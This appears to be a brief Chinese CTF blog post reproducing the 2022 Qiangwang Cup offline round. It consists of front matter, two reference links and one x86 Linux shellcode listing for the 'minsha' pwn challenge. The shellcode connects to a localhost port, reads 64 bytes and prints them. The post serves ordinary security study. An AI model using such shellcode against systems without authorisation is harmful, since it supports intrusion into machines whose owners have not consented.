 ```yaml
---
title: 2022 强网杯 线下赛 复现
date: 2023-09-26 07:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=72/
pin: false
published:
---
```




## minsha

https://cloud.tencent.com/developer/article/2105254

https://blog.csdn.net/m0_37947204/article/details/80489431

```assembly
global _start
_start:

        ;// socket(AF_INET,SOCK_STREAM,IPPROTO_IP)
        xor ebx,ebx
        mul ebx
        inc ebx ; //socket
        push edx
        push ebx
        push 0x2
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;// connet(socket,(struct sockaddr *)&serv_addr,sizeof(struct sockaddr_in))
        push 0x100007f
        push 0xcdea0002
        mov ecx,esp
        push 0x10
        push ecx
        push eax
        mov bl,3
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;//read(socket,esp,64)
        pop ebx
        mov ecx, esp
        mov dl, 64
        mov al,3
        int 0x80

        ;//write(1, esp, 64)
        xor ebx, ebx
        mov bl, 1
        mov al, 4
        int 0x80

        xor ebx,ebx
        mov al,1
        int 0x80
```



